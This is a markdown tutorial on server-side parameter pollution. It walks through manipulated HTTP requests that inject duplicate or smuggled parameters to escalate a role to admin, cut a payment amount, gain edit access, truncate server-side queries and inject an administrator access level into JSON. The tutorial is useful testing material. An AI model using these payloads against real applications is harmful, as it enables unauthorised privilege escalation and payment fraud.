 Server-Side Parameter Pollution (SSPP) is a web vulnerability where an attacker injects multiple parameters with the same name into an HTTP request. The server may interpret these parameters in unexpected ways, potentially leading to security issues such as unauthorized access, privilege escalation, or bypassing security controls.

### Testing for Server-Side Parameter Pollution

1. **Duplicate Parameters Handling:**
   - Send multiple parameters with the same name and different values to see how the server processes them. Different servers or frameworks may use the first, last, or a combination of parameter values.
   
2. **Parameter Injection in Different Contexts:**
   - Try injecting additional parameters into the URL, query string, body, or headers to see how they interact with existing parameters.

3. **Interfering with Security or Business Logic:**
   - Manipulate parameters to change roles, privileges, or other security-sensitive data.

### Example Scenarios with HTTP Requests

#### Scenario 1: Manipulating User Roles (Privilege Escalation)
Assume there is an endpoint that allows a user to update their profile information, and there is a parameter named `role` that determines the user's role.

**Original Request:**
```
POST /updateProfile
Host: example.com
Content-Type: application/x-www-form-urlencoded

username=john&role=user
```

An attacker can attempt SSPP by injecting a second `role` parameter with a higher privilege.

**Manipulated Request:**
```
POST /updateProfile
Host: example.com
Content-Type: application/x-www-form-urlencoded

username=john&role=user&role=admin
```

If the server takes the last parameter's value or combines them, the attacker may gain admin privileges.

#### Scenario 2: Bypassing Payment Validation
In an e-commerce platform, assume there is an endpoint to process payments, where the `amount` parameter indicates the transaction amount.

**Original Request:**
```
POST /processPayment
Host: shop.com
Content-Type: application/x-www-form-urlencoded

amount=100
```

By adding another `amount` parameter with a different value, an attacker can see if the server uses a different value.

**Manipulated Request:**
```
POST /processPayment
Host: shop.com
Content-Type: application/x-www-form-urlencoded

amount=100&amount=1
```

If the server accepts the second `amount` value, the attacker may pay only 1 unit instead of 100.

#### Scenario 3: URL Parameter Injection (Overriding Default Behavior)
An application might use a URL parameter to control access to different functionalities, such as `action=view` or `action=edit`.

**Original Request:**
```
GET /document?action=view&id=123
Host: documents.com
```

An attacker tries injecting another `action` parameter to see if it changes the server's behavior.

**Manipulated Request:**
```
GET /document?action=view&action=edit&id=123
Host: documents.com
```

If the server uses the second `action` parameter, the attacker might gain edit permissions.

### Scenario 4: Truncating query strings

You can use a URL-encoded # character to attempt to truncate the server-side request. To help you interpret the response, you could also add a string after the # character.

**Original Request**
```
GET /userSearch?name=peter&back=/home
```
**Manipulated Request:**
```
GET /users/search?name=peter#&publicProfile=true
```
### Scenario 5: Structured Data Formats
Consider an application that enables users to edit their profile, then applies their changes with a request to a server-side API. When you edit your name, your browser makes the following request:
```
POST /myaccount
name=peter
```
This results in the following server-side request:
```
PATCH /users/7312/update
{"name":"peter"}
```

You can attempt to add the access_level parameter to the request as follows:
POST /myaccount
```name=peter","access_level":"administrator```

If the user input is added to the server-side JSON data without adequate validation or sanitization, this results in the following server-side request:
```
PATCH /users/7312/update
{name="peter","access_level":"administrator"}
```
This may result in the user peter being given administrator access.<br>
<br>
***Consider a similar example, but where the client-side user input is in JSON data. When you edit your name, your browser makes the following request:***
```
POST /myaccount
{"name": "peter"}
```
This results in the following server-side request:
```
PATCH /users/7312/update
{"name":"peter"}
```
You can attempt to add the access_level parameter to the request as follows:
```
POST /myaccount
{"name": "peter\",\"access_level\":\"administrator"}
```
If the user input is decoded, then added to the server-side JSON data without adequate encoding, this results in the following server-side request:
```
PATCH /users/7312/update
{"name":"peter","access_level":"administrator"}
```
Again, this may result in the user peter being given administrator access.
